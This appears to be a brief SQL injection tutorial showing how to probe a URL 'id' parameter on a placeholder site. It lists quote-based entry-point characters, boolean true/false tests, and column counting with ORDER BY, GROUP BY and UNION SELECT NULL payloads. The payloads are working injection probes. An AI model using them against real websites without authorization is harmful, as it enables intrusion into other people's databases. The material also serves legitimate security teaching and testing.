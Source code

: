In the process of finding SQL on the desired website, we must look for pages and forums that we must enter, 

or for example, by clicking on an icon or item, a new section will open for us.

For example, by clicking on an item, a GET request is sent to the origin of the website, but the id parameter is added to the URL and the value 13 is requested.

    http://target.tld/product.php?id=13

In order to make sure that this id parameter is related to the DBMS, we test different values ​​in the id input value.

For example, we have already tested and we know that we have a value for id=18.

so => id=13'+'5  and URL endoce it: id = 13'%2b'5

Entry Point:

     [Nothing]
    '
    "
    `
    ')
    ")
    `)
    '))
    "))
    `))

If it works and the output of parameter id=18 is displayed, you can test other inputs as well


another query: 

    ?id=13'AND 1=1 %23
    ?id=13'AND 1=0 %23
    ?id=13' order by 1 %23    => always true query


You can find the number of columns with order by:

    ?id=13'order by 10 %23

We will send this request if we don't get a response, that means the number of columns is less than 10 Now we decrease one by one until we get the response on page 13 and find the number of columns.

    1' ORDER BY 1--+    #True
    1' ORDER BY 2--+    #True
    1' ORDER BY 3--+    #True
    1' ORDER BY 4--+    #False - Query is only using 3 columns
                            #-1' UNION SELECT 1,2,3--+    True

and GROUP BY:

    1' GROUP BY 1--+    #True
    1' GROUP BY 2--+    #True
    1' GROUP BY 3--+    #True
    1' GROUP BY 4--+    #False - Query is only using 3 columns
                            #-1' UNION SELECT 1,2,3--+    True

                            



UNION is used to agree two queries. You can find the number of columns using UNION

    ?id=13'UNION SELECT NULL-- -            => ERROR!
    ?id=13'UNION SELECT NULL,NULL-- -       => ERROR!
    ?id=13'UNION SELECT NULL,NULL,NULL-- -  => No Error, so the number of columns is 3


    


    
    
    

